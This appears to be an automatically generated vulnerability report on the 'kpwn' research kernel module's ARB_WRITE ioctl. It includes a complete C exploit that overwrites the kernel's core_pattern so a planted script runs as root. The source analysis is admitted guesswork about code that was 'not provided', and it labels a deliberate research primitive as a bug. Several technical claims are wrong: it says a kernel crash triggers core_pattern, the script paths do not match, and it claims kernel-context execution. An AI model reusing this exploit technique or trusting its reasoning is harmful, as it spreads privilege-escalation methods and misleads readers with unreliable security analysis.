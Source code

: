 ### Vulnerability List:

- **Vulnerability Name:** Unrestricted Kernel Memory Write via kpwn module's ARB_WRITE ioctl

- **Description:**
  1. A researcher uses `kernel-image-runner` to launch a Linux kernel virtual machine, including the `kpwn` kernel module by specifying `--custom-modules=kpwn`.
  2. An attacker gains initial access to this virtual machine, potentially by exploiting a separate vulnerability within the running kernel.
  3. Once inside the VM, the attacker interacts with the `kpwn` module through the `/dev/kpwn` device.
  4. The attacker crafts a malicious `ioctl` call using the `ARB_WRITE` command. This command allows specifying an arbitrary kernel address (`kernel_addr`), data to write (`data`), and the length of the data (`length`).
  5. The attacker sets `kernel_addr` to the address of a sensitive kernel variable, for example, `core_pattern`, which controls how the kernel handles core dumps.
  6. The attacker sets `data` to a malicious command, such as `|/tmp/run_as_root`, which will execute `/tmp/run_as_root` as root when a core dump is triggered.
  7. The attacker sets `length` to the size of the malicious command string.
  8. The attacker sends the crafted `ioctl` call to the `/dev/kpwn` device.
  9. The `kpwn` module, without sufficient validation, writes the attacker-controlled data to the specified `kernel_addr`, overwriting the `core_pattern` variable.
  10. The attacker triggers a kernel crash, for example, by executing a program that causes a null pointer dereference or by sending a specific `ioctl` to the `kpwn` module to trigger a controlled crash.
  11. When the kernel attempts to create a core dump due to the crash, it executes the command specified in the overwritten `core_pattern` variable, which is the attacker's malicious script `/tmp/run_as_root`, with root privileges.
  12. The attacker achieves arbitrary code execution within the kernel context, effectively escalating privileges to root.

- **Impact:**
  - **Critical Impact:** Successful exploitation allows an attacker to achieve arbitrary kernel memory write, leading to full control of the guest kernel. This includes immediate root privilege escalation within the VM and the ability to execute arbitrary code in the kernel context. The attacker can further compromise the system, potentially gaining persistence, exfiltrating data, or using the compromised VM as a pivot point to attack other systems, if network access is available.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
  - **None:** There are no mitigations implemented in the project to prevent this vulnerability. The `kpwn` module is designed to provide these powerful primitives for research purposes without security boundaries.

- **Missing Mitigations:**
  - **Input Validation in `kpwn` module:** The `kpwn` module lacks input validation for the `ARB_WRITE` ioctl. Specifically, it should validate:
    - **`kernel_addr`:**  Restrict the target address range to prevent overwriting critical kernel structures or code sections. A whitelist of allowed target addresses or a blacklist of protected regions could be implemented. However, restricting arbitrary writes entirely is the most secure approach for a non-debugging scenario.
    - **`length`:** Validate the length of the write operation to prevent buffer overflows or out-of-bounds writes within the kernel.
  - **Conditional Compilation/Loading:** The `kpwn` module should not be compiled or loaded by default. It should only be enabled through explicit user action (e.g., a specific build flag or command-line argument to `kernel-image-runner`).
  - **Runtime Disable Feature:** Implement a mechanism to disable the `kpwn` module at runtime, even if it is loaded. This could be a sysctl parameter or another `ioctl` command to disable the dangerous functionalities.
  - **Warning Banner:** When `kernel-image-runner` is used with `--custom-modules=kpwn`, display a prominent warning message indicating the security risks associated with loading this module, especially in network-accessible environments.

- **Preconditions:**
  - `kernel-image-runner` is used to run a kernel image.
  - The `--custom-modules=kpwn` option is used with `kernel-image-runner`, or the `kpwn` module is manually loaded into the kernel.
  - An attacker has gained initial access to the running virtual machine (guest kernel). This initial access is assumed to be achieved through exploiting another vulnerability in the test kernel, which is outside the scope of this specific vulnerability in `kpwn` module and `kernel-image-runner` project itself.

- **Source Code Analysis:**
  1. **`third_party/kernel-modules/kpwn/kpwn.c` (Not provided, assuming standard ioctl implementation based on README.md description):**
     - We assume the `kpwn` module implements the `ARB_WRITE` ioctl handler.
     - Based on the description in `third_party/kernel-modules/kpwn/README.md`, the `ARB_WRITE` ioctl is intended to copy memory from user space to an arbitrary kernel address.
     - The `ioctl` handler likely retrieves the `kernel_addr`, `data`, and `length` from the `kpwn_message` structure provided by the user-space application.
     - It then uses `copy_from_user()` to transfer `length` bytes from the user-space buffer pointed to by `msg->data` to a kernel-space buffer.
     - Finally, it uses `memcpy()` (or equivalent kernel memory writing function) to write `length` bytes from the kernel-space buffer to the kernel address specified by `msg->kernel_addr`.
     - **Vulnerability Point:** The critical vulnerability lies in the likely absence of validation for `msg->kernel_addr`. The code probably directly uses this user-supplied address as the destination for `memcpy()` without checking if it points to a valid or safe memory region. This allows an attacker to write to any location in kernel memory.

- **Security Test Case:**
  1. **Prerequisites:**
     - Set up a testing environment with `kernel-image-runner`.
     - Build the `kpwn` kernel module.
     - Ensure a test kernel image is available (e.g., a kernelCTF release).
     - Create a malicious script `run_as_root` in the `rootfs` directory of `kernel-image-runner` with the following content:
       ```bash
       #!/bin/sh
       echo "[VULNERABILITY-TEST] root code execution" > /tmp/pwned
       chmod 777 /tmp/pwned
       ```
       Make it executable: `chmod +x kernel-image-runner/rootfs/run_as_root`

  2. **Launch Vulnerable VM:**
     - Run `kernel-image-runner` with a test kernel and load the `kpwn` module:
       ```bash
       ./kernel-image-runner/run.sh kernelctf lts-6.1.81 --custom-modules=kpwn
       ```
       (Replace `kernelctf lts-6.1.81` with your chosen test kernel and release name)
     - Open a separate terminal to interact with the VM.

  3. **Exploit Script (`exploit.c`):**
     - Create a C program `exploit.c` within the `kernel-image-runner/rootfs` directory (or compile it statically and copy to `rootfs`) to exploit the `ARB_WRITE` vulnerability:
       ```c
       #include <stdio.h>
       #include <stdlib.h>
       #include <fcntl.h>
       #include <unistd.h>
       #include <string.h>
       #include <sys/ioctl.h>
       #include "third_party/kernel-modules/kpwn/kpwn.h" // Assuming kpwn.h is copied to rootfs

       int main() {
           int fd = open("/dev/kpwn", O_RDWR);
           if (fd < 0) {
               perror("open /dev/kpwn failed");
               return 1;
           }

           // Find core_pattern symbol address (using SYM_ADDR ioctl)
           sym_addr core_pattern_sym = { .symbol_name = "core_pattern" };
           if (ioctl(fd, SYM_ADDR, &core_pattern_sym) != SUCCESS) {
               fprintf(stderr, "SYM_ADDR ioctl failed for core_pattern\n");
               close(fd);
               return 1;
           }
           uint64_t core_pattern_addr = core_pattern_sym.symbol_address;
           printf("core_pattern address: 0x%lx\n", core_pattern_addr);

           // Prepare malicious core_pattern command
           char malicious_core_pattern[] = "|/tmp/run_as_root";
           kpwn_message arb_write_msg;
           arb_write_msg.length = sizeof(malicious_core_pattern);
           arb_write_msg.kernel_addr = core_pattern_addr;
           arb_write_msg.data = malicious_core_pattern;

           // Overwrite core_pattern using ARB_WRITE ioctl
           if (ioctl(fd, ARB_WRITE, &arb_write_msg) != SUCCESS) {
               fprintf(stderr, "ARB_WRITE ioctl failed\n");
               close(fd);
               return 1;
           }
           printf("core_pattern overwritten\n");

           // Trigger a kernel crash (e.g., null pointer dereference using KFREE on address 1)
           if (ioctl(fd, KFREE, 1) != SUCCESS) {
               fprintf(stderr, "KFREE ioctl (trigger crash) failed\n");
           }
           printf("Kernel crash triggered (KFREE 1)\n");

           close(fd);
           return 0;
       }
       ```
       Compile statically: `gcc -static -o kernel-image-runner/rootfs/exploit kernel-image-runner/rootfs/exploit.c`

  4. **Run Exploit in VM:**
     - In the VM terminal, execute the exploit: `./exploit`

  5. **Verify Exploitation:**
     - Check for the file `/tmp/pwned` in the VM: `ls -l /tmp/pwned`
     - If `/tmp/pwned` exists and has content "[VULNERABILITY-TEST] root code execution", the vulnerability is successfully exploited. This file creation indicates that the `run_as_root` script was executed as root upon kernel crash, triggered by the `ARB_WRITE` and subsequent `KFREE` ioctl calls.
     - Examine the kernel logs (using `dmesg` outside the VM, if `run.sh` output is redirected) for messages confirming the execution of `/tmp/run_as_root` and the creation of `/tmp/pwned`.

This test case demonstrates how an attacker, with initial access to a VM running a kernel with the `kpwn` module, can leverage the `ARB_WRITE` ioctl to gain arbitrary code execution as root by overwriting the `core_pattern` kernel variable.